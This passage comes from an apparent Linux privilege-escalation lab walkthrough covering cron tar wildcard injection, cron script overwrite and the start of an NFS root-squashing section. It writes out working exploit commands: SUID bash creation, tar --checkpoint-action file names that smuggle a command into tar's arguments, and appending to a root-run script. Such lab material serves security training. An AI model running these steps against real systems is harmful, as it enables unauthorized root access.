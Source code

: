 1. In command prompt type: `cat /etc/crontab`
2. From the output, notice the script “/usr/local/bin/compress.sh”
3. In command prompt type: `cat /usr/local/bin/compress.sh`  
4. From the output, notice the wildcard (*) used by **tar**. 

## Exploitation

**Target box**

1. In command prompt type:
`echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/runme.sh`
2. `touch /home/user/--checkpoint=1`
3. `touch /home/user/--checkpoint-action=exec=sh\ runme.sh`
4. Wait 1 minute for the Bash script to execute.
5. In command prompt type: `/tmp/bash -p`
6. In command prompt type: `id`

# 16. Privilage Escalation - Corn (File Overwrite)
## Detection

**Target box**

1. In command prompt type: `cat /etc/crontab`
2. From the output, notice the script “overwrite.sh”
3. In command prompt type: `ls -l /usr/local/bin/overwrite.sh`
4. From the output, notice the file permissions.

## Exploitation

**Target box**

1. In command prompt type:
`echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' >> /usr/local/bin/overwrite.sh`
2. Wait 1 minute for the Bash script to execute.
3. In command prompt type: `/tmp/bash -p`
4. In command prompt type: `id`

# 17. Privilage Escalation - NFS Root Squashing
## Detection

**Target box**

1. In command line type: `cat /etc/exports`
2. From the output, notice that “no_root_squash” option is defined for the “/tmp” export.

## Exploitation

**Attacker box**
